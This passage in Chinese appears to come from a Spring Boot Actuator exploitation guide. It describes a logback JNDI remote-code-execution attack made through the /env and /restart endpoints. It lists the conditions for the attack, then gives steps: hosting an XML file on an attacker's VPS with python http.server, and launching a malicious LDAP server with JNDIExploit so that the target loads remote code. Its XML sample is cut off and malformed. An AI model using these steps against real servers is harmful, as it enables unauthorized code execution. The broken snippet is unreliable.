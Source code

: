 发送完 payload 后触发漏洞：

```
http://127.0.0.1:9097/product/list


```

### 0x09：restart logging.config logback JNDI RCE

#### 利用条件：

*   可以 POST 请求目标网站的 `/env` 接口设置属性
    
*   可以 POST 请求目标网站的 `/restart` 接口重启应用
    
*   普通 JNDI 注入受目标 JDK 版本影响，jdk <6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过
    
*   ⚠️
    
     目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
    
*   ⚠️
    
     HTTP 服务器如果返回含有畸形 xml 语法内容的文件，会导致程序异常退出
    
*   ⚠️
    
     JNDI 服务返回的 object 需要实现 `javax.naming.spi.ObjectFactory` 接口，否则会导致程序异常退出
    

#### 利用方法：

##### 步骤一：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80

```

在根目录放置以 `xml` 结尾的 `example.xml` 文件，实际内容要根据步骤二中使用的 JNDI 服务来确定：

```
<configuration>
  <insertFromJNDI env-entry- />
</configuration>

```

##### 步骤二：托管恶意 ldap 服务及代码

参考文章，修改 JNDIExploit 并启动（也可以使用其他方法）：

```
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i your-vps-ip

```
